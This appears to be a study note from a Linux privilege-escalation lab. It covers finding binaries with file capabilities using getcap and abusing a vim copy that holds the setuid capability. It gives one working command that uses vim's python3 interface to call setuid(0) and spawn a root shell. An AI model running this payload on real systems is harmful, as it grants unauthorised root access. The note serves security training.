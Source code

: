 Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”.

**We can use the `getcap` tool to list enabled capabilities.**
![[linux_privesc57.png]]
   - When run as an unprivileged user, `getcap -r /` will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

**Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.**
![[linux_privesc58.png]]

**We notice that vim can be used with the following command and payload:**
```sh
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

![[linux_privesc59.png]]

**This will launch a root shell as seen below;**
![[linux_privesc60.png]]
